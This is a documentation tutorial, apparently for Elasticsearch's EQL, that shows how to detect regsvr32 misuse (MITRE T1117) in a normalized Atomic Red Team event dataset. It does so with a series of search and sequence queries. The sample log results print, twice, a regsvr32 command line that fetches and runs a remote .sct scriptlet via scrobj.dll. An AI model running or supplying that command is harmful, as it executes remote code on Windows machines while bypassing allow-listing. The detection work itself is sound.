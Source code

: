 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

dev::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] in Windows Event Logs.
Regsvr32 misuse is a known adversary technique
documented in the https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a normalized test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset
includes events that imitate behaviors related to regsvr32 misuse, as documented
by MITRE ATT&CK®.

To get started, download and index the sample dataset:

. Download the https://github.com/endgameinc/eqllib/blob/master/data/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into the `sec_logs` index with the following
<<docs-bulk,bulk API>> request:

[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/sec_logs/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the dataset was indexed
  successfully.

[source,console]
----
GET /_cat/indices/sec_logs?v&h=health,status,index,docs.count
----
// TEST[setup:sec_logs]

The API returns the following response. The `docs.count` value should show `150`
documents were indexed.

[source,txt]
----
health status index     docs.count
yellow open   sec_logs         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32.exe` events

Since you're looking for `regsvr32` misuse, start by getting a count of events
using `regsvr32.exe`.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process_name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning query can match events of any <<eql-required-fields,event category>>.

[source,console]
----
GET /sec_logs/_eql/search?filter_path=-hits.events  <1>
{
  "query": """
    any where process_name == "regsvr32.exe"        <2>
  """,
  "event_category_field": "event_type",             <3>
  "timestamp_field": "timestamp",                   <4>
  "size": 150                                       <5>
}
----
// TEST[setup:sec_logs]
<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. This request is only intended to
retrieve a count of events.
<2> Matches events with a `process_name` of `regsvr32.exe`.
<3> Sets the event category field as `event_type`.
<4> Sets the timestamp field as `timestamp`.
<5> Returns up to 150 events or sequences matching the query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Your previous query matched 143 events. Many of these events are likely to be
false positives.

To narrow down the results, check if the command line was used during any of
these events. Append `and command_line > 0` to the previous EQL query. This
should limit matching results to events that contain a `command_line` value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    any where process_name == "regsvr32.exe" and command_line > 0
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches one event.  Based on the event's `command_line` value,
`regsvr32.exe` was used to register a script as `scrobj.dll`. This fits known
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] behavior.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 2,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
          "event_type": "process",
          "logon_id": 217055,
          "parent_process_name": "cmd.exe",
          "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
          "pid": 2012,
          "ppid": 2652,
          "process_name": "regsvr32.exe",
          "process_path": "C:\\Windows\\System32\\regsvr32.exe",
          "subtype": "create",
          "timestamp": 131883573237130000,
          "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
          "unique_ppid": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
          "user": "ART-DESKTOP\\bob",
          "user_domain": "ART-DESKTOP",
          "user_name": "bob"
        },
        "sort": [
          131883573237130000
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 2/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that `regsvr32.exe` was used to register
a potentially malicious script as `scrob.dll`. Next, find any processes that
load the `scrob.dll` file.

Modify the previous EQL query as follows:

* Change the `any` keyword to `image_load`. This means the query only matches
events with an `event_type` of `image_load`.
* Add the `image_name == "scrobj.dll` condition to check for image loads of
`scrobj.dll`.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    image_load where process_name == "regsvr32.exe" and image_name == "scrobj.dll"
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches an event, confirming that `scrobj.dll` was later loaded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "event_type": "image_load",
          "image_name": "scrobj.dll",
          "image_path": "C:\\Windows\\System32\\scrobj.dll",
          "pid": 2012,
          "process_name": "regsvr32.exe",
          "process_path": "C:\\Windows\\System32\\regsvr32.exe",
          "timestamp": 131883573237450016,
          "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}"
        },
        "sort": [
          131883573237450016
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to download other remote files. If
this occurred, the attack progressed and might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events:

* A `regsvr32.exe`  process. These processes
can be used to load arbitrary scripts.
* An image load of `scrobj.dll`
* Any network event, which could indicate the download of a remote file.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    sequence
      [process where process_name == 'regsvr32.exe']
      [image_load where image_name == 'scrobj.dll']
      [network where true]
  """,
  "event_category_field": "event_type",
  "timestamp_field": "timestamp",
  "size": 150
}
----
// TEST[setup:sec_logs]


The request returns the following response with a matching sequence, indicating
the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "events": [
          {
            "_index": "sec_logs",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
              "event_type": "process",
              "logon_id": 217055,
              "parent_process_name": "cmd.exe",
              "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
              "pid": 2012,
              "ppid": 2652,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "subtype": "create",
              "timestamp": 131883573237130000,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
              "unique_ppid": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "user": "ART-DESKTOP\\bob",
              "user_domain": "ART-DESKTOP",
              "user_name": "bob"
            },
            "sort": [
              131883573237130000
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "event_type": "image_load",
              "image_name": "scrobj.dll",
              "image_path": "C:\\Windows\\System32\\scrobj.dll",
              "pid": 2012,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "timestamp": 131883573237450016,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}"
            },
            "sort": [
              131883573237450016
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_score": null,
            "_source": {
              "destination_address": "151.101.48.133",
              "destination_port": "443",
              "event_type": "network",
              "pid": 2012,
              "process_name": "regsvr32.exe",
              "process_path": "C:\\Windows\\System32\\regsvr32.exe",
              "protocol": "tcp",
              "source_address": "192.168.162.134",
              "source_port": "50505",
              "subtype": "outgoing",
              "timestamp": 131883573238680000,
              "unique_pid": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
              "user": "ART-DESKTOP\\bob",
              "user_domain": "ART-DESKTOP",
              "user_name": "bob"
            },
            "sort": [
              131883573238680000
            ]
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
